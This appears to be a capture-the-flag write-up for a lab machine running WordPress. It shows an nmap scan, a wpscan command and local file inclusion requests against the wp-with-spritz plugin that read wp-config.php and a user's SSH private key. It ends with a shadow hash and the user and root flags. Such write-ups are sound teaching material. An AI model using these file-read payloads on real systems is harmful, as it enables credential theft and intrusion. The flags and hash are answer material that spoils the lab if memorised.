# CMS



## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:da:3d:c8:51:73:2c:4e:f3:5e:95:4d:5c:b8:a0:7d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChy6Me54Y6ABt+Lq2S+9dOCWVSIjRlnL0R8U7XiGwXjukHJQh+o4mkvKBEvrAoS/m8ZZmSJDyShrL+1m/JfLUBwQqJlKAkVJa7KKp7lP37ZMWBapomONi7p5vlRRcS3UED0WgnD75i/AOQWF9rJfHbld+1qMa6skb+vO7f45Uy2sp6z7fBYA6/XGjn2l68IrI04n952DawxEZnvjQ+HvJo9Dn9ACR7XcKbrwoH9XrcdE4M8tPCSoaMRB0T/OzcOf7fSYup274qQubRJcNFwdgHTi+PUdWH+NB2tF7fs5bykKX8LlwG7+JVyikdCcx3Pze4PDF30PNPlhS2ZDsOmAMl
|   256 8d:22:9a:44:8c:d4:89:f7:d9:e2:51:db:18:eb:f6:5b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB3vpSKb6YjHb35fCY6fWjXJJEVQZ0h7DVEG/YLQLTH6GcGNtBusU6O4fp4ZVuXhHx34jETu9hxZO0oJ6KMZZkg=
|   256 78:8e:46:d3:64:6a:5a:68:d2:09:4d:9d:3b:27:9f:be (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEdTVMa2b5TuNkhVgbzev10wmnyZOl9PY4m9rpbZk98X
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.3.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: CMS
```

## PORT 80 ENUMERATION



### /BLOG



### WPSCAN

* WORDPRESS 5.3.2

```text
wpscan --url http://172.31.1.8 -e ap
```











### LFI PROOF OF CONCEPT \(POC\)



## GET WORDPRESS CREDS

```text
view-source:http://172.31.1.8/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```



* CREDS didn´t work in ssh login

#### GET ID\_RSA of ANGEL USER

```text
view-source:http://172.31.1.8/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../home/angel/.ssh/id_rsa
```





## PRIVESC



## CREDS

```text
angel:$6$b7KKDavx$XyLlSOAXUs5TAW6yU2NFBjbgf6oMwS1fKPGP/7DJGzFz2oOLK/iYgxicNU0/HIG.5uH.PryvhMQgLSdz18ZrL0:18324:0:99999:7:::
```

## FLAGS

### USER

```text
d5ca58536a32935299d9f1026436f149
```

### ROOT

```text
459daa8ee877e8048563ca65dc867afa
```


